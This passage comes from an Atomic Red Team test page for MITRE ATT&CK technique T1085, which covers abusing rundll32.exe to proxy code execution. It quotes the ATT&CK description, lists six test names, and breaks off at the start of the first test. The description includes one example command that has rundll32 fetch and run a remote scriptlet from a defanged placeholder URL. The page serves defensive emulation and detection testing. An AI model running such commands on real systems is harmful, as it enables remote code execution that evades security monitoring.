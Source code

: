 # T1085 - Rundll32

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)

<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll
functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes
rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to
this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]
example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is
Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)

<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject

Test execution of a remote script using rundll32.exe. Upon execution notepad.exe will be opened.

**Supported Platforms:** Windows

#### Inputs:
